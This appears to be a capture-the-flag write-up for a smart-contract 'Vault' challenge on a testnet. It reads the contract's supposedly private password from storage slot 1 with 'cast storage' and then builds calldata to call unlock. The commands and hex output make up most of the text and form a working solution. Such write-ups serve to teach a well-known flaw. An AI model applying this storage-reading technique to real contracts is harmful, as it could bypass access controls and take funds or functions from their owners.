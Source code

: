 This puzzle is the same with `Privacy` puzzle.

We get the instance address: 0x7ce586371a38B2833d84809A84b0d14eFF954581

Then we can use `cast storage` command to check the state variable in this contract
Note that, the `password` is on slot 1

```shell
//  0x412076657279207374726f6e67207365637265742070617373776f7264203a29

    cast storage --rpc-url $GORLI \
--etherscan-api-key $ETHERSCAN_API_KEY \
0x7ce586371a38B2833d84809A84b0d14eFF954581 1
```

We get this 32 bytes back, and we can use this to unlock the `Vault` contract.

```shell
//  0xec9b5b3a412076657279207374726f6e67207365637265742070617373776f7264203a29

cast calldata "unlock(bytes32)" 0x412076657279207374726f6e67207365637265742070617373776f7264203a29
```

Using `cast calldata` generate calldata, then make a raw transaction call.
